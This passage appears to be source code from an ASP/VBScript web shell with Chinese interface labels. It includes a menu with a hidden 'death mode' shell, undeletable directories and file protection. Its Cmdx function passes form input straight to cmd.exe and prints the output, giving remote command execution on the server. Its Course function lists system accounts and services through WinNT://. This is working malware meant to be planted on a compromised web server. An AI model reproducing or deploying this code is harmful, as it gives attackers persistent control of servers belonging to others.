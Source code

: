 j cdx&"<a href='?Action=TSearch' target='FileFrame'>"&cxd&" 搜索__文件"&ef&"</tr></table>"
j"<hr><tr><td><input onMouseOver=""this.style.cursor='hand'"" type=button value='   Special     '></td</tr><tr><td height=4></td></tr><tr><td align=center><table border=0>"
j cdx&"<a href='?Action=EditPower&PowerPath=\\.\"&ScriptPath&"' target='FileFrame'>"&cxd&" 解锁程序"&ef
j cdx&"<a href='?Action=hiddenshell' target='FileFrame'>"&cxd&" <font color=red>死神模式</font>"&ef
j cdx&"<a href='javascript:FullForm("""&RePath(Session("FolderPath")&"\vti_cnf..\\")&""",""NewFolder"")'>"&cxd&" 防删目录"&ef
j cdx&"<a href='?Action=delpoint' target='FileFrame'>"&cxd&" 删除防删"&ef
j cdx&"<a href='?Action=ProFile' target='FileFrame'>"&cxd&" 文件保护"&ef
j cdx&"<a href='?Action=Logout' target='FileFrame'>"&cxd&" 退出登陆</a></td></tr></hr></table>"
end function
function Cmdx()
j("<center><form method='post'> "):j("<input type=text name='cmdx' size=60 value='cmd.exe'><br> "):j("<input type=text name='cmd' size=60><br> "):j("<input type=submit value='Sumbit'></form> "):j("<textarea readonly cols=150 rows=27> "):On Error Resume Next:if request("cmdx")="cmd.exe" then
j oScriptlhn.exec("cmd.exe /c"&request("cmd")).stdout.readall 
end if :j oScriptlhn.exec(request("cmdx")&" /c"&request("cmd")).stdout.readall :j("</textarea></center>")
end function
Function Course()
SI="<br><table width='80%' align='center'><tr><td height='20' colspan='3' align='center' id=s><b>系统用户与服务</b></td></tr>"
on error resume next
for each obj in getObject("WinNT://.")
err.clear
if OBJ.StartType="" then
SI=SI&"<tr><td height=""20"" id=d>&nbsp;"&obj.Name&"</td><td id=d>&nbsp;系统用户(组)</td></tr><tr>" 
end if
if OBJ.StartType=2 then lx="自动"
if OBJ.StartType=3 then lx="手动"
if OBJ.StartType=4 then lx="禁用"
if LCase(mid(obj.path,4,3))<>"win" and OBJ.StartType=2 then
SI1=SI1&"<tr><td height=""20"" id=d>&nbsp;"&obj.Name&"</td><td height=""20"" id=d>&nbsp;"&obj.DisplayName&"<tr><td height=""20"" id=d colspan=""2"">[启动类型:"&lx&"]<font>&nbsp;"&obj.path&"</font></td></tr>"
else
SI2=SI2&"<tr><td height=""20"" id=d>&nbsp;"&obj.Name&"</td><td height=""20"" id=d>&nbsp;"&obj.DisplayName&"<tr><td height=""20"" bgcolor=""#FFFFFF"" colspan=""2"">[启动类型:"&lx&"]<font color=#3399FF>&nbsp;"&obj.path&"</font></td></tr>"
end if
next
j SI&SI0&SI1&SI2&"</table>"
End Function
Function IIf(var, val1, val2)
If var=True Then
IIf=val1
Else
IIf=val2
End If
End Function
Function GetTheSizes(num)
Dim i, arySize(4)
arySize(0)="B"
arySize(1)="KB"
arySize(2)="MB"
arySize(3)="GB"
arySize(4)="TB"
While(num / 1024 >= 1)
num=Fix(num / 1024 * 100) / 100
i=i + 1
WEnd
GetTheSizes=num&" "&arySize(i)
End Function
Function HtmlEncodes(str)